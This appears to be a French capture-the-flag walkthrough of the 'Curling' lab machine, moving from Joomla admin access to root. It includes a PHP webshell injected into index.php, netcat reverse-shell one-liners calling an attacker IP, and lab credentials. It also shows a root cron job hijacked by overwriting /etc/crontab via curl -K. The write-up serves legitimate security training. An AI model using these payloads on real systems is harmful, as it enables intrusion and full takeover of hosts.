 # Curling - Easy

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-02 14:33 EDT
Nmap scan report for 10.10.10.150
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8ad169b490203ea7b65401eb68303aca (RSA)
|   256 9f0bc2b20bad8fa14e0bf63379effb43 (ECDSA)
|_  256 c12a3544300c5b566a3fa5cc6466d9a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.75 seconds
```

On va donc consulter de site web, on lance un gobuster en fond

```bash
/LICENSE.txt          (Status: 200) [Size: 18092]
/index.php            (Status: 200) [Size: 14264]
/.htaccess            (Status: 403) [Size: 277]  
/.                    (Status: 200) [Size: 14244]
/.html                (Status: 403) [Size: 277]  
/configuration.php    (Status: 200) [Size: 0]    
/.php                 (Status: 403) [Size: 277]  
/README.txt           (Status: 200) [Size: 4872] 
/.htpasswd            (Status: 403) [Size: 277]  
/htaccess.txt         (Status: 200) [Size: 3005] 
/.htm                 (Status: 403) [Size: 277]  
/.htpasswds           (Status: 403) [Size: 277]  
/.htgroup             (Status: 403) [Size: 277]  
/wp-forum.phps        (Status: 403) [Size: 277]  
/.htaccess.bak        (Status: 403) [Size: 277]  
/.htuser              (Status: 403) [Size: 277]  
/.ht                  (Status: 403) [Size: 277]  
/.htc                 (Status: 403) [Size: 277]  
/.htaccess.old        (Status: 403) [Size: 277]  
/.htacess             (Status: 403) [Size: 277]

/language             (Status: 301) [Size: 315] [--> http://10.10.10.150/language/]
/modules              (Status: 301) [Size: 314] [--> http://10.10.10.150/modules/] 
/images               (Status: 301) [Size: 313] [--> http://10.10.10.150/images/]  
/templates            (Status: 301) [Size: 316] [--> http://10.10.10.150/templates/]
/media                (Status: 301) [Size: 312] [--> http://10.10.10.150/media/]    
/cache                (Status: 301) [Size: 312] [--> http://10.10.10.150/cache/]    
/tmp                  (Status: 301) [Size: 310] [--> http://10.10.10.150/tmp/]      
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.150/includes/] 
/plugins              (Status: 301) [Size: 314] [--> http://10.10.10.150/plugins/]  
/administrator        (Status: 301) [Size: 320] [--> http://10.10.10.150/administrator/]
/components           (Status: 301) [Size: 317] [--> http://10.10.10.150/components/]   
/bin                  (Status: 301) [Size: 310] [--> http://10.10.10.150/bin/]          
/libraries            (Status: 301) [Size: 316] [--> http://10.10.10.150/libraries/]                                                                                                                                                                          
/layouts              (Status: 301) [Size: 314] [--> http://10.10.10.150/layouts/]      
/server-status        (Status: 403) [Size: 277]                                          
/cli                  (Status: 301) [Size: 310] [--> http://10.10.10.150/cli/]
```

Le htaccess.txt nous donne plusieurs infos sur comment on pourrait exploiter le site. On cherche donc ce que l’on peut fiare dessus. Il est possible de se connecter mais pas de se register. On peut tenter un sqlmap sur le login.

```bash
[CRITICAL] all tested parameters do not appear to be injectable.
```

On essaye aussi sur le panel admin:

```bash
[CRITICAL] all tested parameters do not appear to be injectable.
```

On analyse donc le site plus en détail. On remarque ceci dans le code source:

```bash
<!-- secret.txt -->
```

On essaye donc de curl la page manuellement /secret.txt et l’on trouve un secret:

```bash
Q3VybGluZzIwMTgh
```

C’est le base64 pour Curling2018!, ce qui ressemble beaucoup à un mdp, on va essayer de se log sur le panel admin avec mais d’abord on trouve sur le site qu’il y a l’user “Super User” et un nom “Floris”, on peut se connecter en entrant Floris et le mdp trouvé. On est donc sur le panel admin et on va essayer d’obtenir une reverse shell. Dans templates on peut rajouter des fichiers au template et on rajoute donc une reverse shell  

[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

Le fichier n’est pas trouvé alors on va essayer de rajouter un reverse shell php dans l’index.php

```bash
system($_REQUEST['test']);
```

Il suffit alors de tester pour voir que cela marche:

```bash
http://10.10.10.150/index.php?test=id
```

On lance donc une reverse shell et cela fonctionne avec celui-ci en utilisant burpsuite pour encode:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.6 9090 >/tmp/f
```

On trouve les credentials mysql de Floris dans la configuration du serveur:

```bash
public $user = 'floris';        
        public $password = 'mYsQ!P4ssw0rd$yea!';
```

```bash
mysql -u floris -p

show databases;

Database
information_schema
Joombla
```

On ne peut pas utiliser Database donc on cherche autre part. On trouve un hexdump d’un password:

```bash
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

On reverse donc le processus:

```bash
cat password_backup | xxd -r > /tmp/test
file test
test: bzip2 compressed data, block size = 900k
bzip2 -d test
file test.out
test.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
mv test.out test.gz
gzip -d test.gz
file test.out
test: bzip2 compressed data, block size = 900k
bzip2 -d test
file test.out
test.out: POSIX tar archive (GNU)
tar xf test.out
```

On trouve donc finalement le fichier password.txt avec le mdp ssh de Floris: 5d<wdCbdZu)|hChXll

On upload linpeas:

```bash
╔══════════╣ .sh files in path                                                                                                 
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path                                     
/usr/bin/gettext.sh

root      1117  0.0  0.1  30036  3304 ?        Ss   12:55   0:00 /usr/sbin/cron -f
```

On remarque d’ailleurs des fichiers qui semblent auto-générés dans admin-area, surement par un cron. On va essayer d’analyser les cron avec ceci: https://github.com/DominicBreuker/pspy

On découvre alors ceci:

```bash
2023/04/03 13:34:01 CMD: UID=0     PID=26476  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2023/04/03 13:34:01 CMD: UID=0     PID=26475  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

L’idée est de faire un crontab malicieux qui va nous permettre d’avoir une reverse shell. Le -K spécifie un fichier de config qui est input pour run le cron. On edit donc un crontab sur notre machine:

```bash
cp /etc/crontab .
echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
2>&1|nc 10.10.16.6 9090 >/tmp/f ' >> crontab
python3 -m http.server
```

Sur la machine attaquée:

```bash
vi input
url = "http://10.10.16.6:8000/crontab"
output = /etc/crontab
```

Après un peu d’attente notre crontab est executé et on obtient un shell root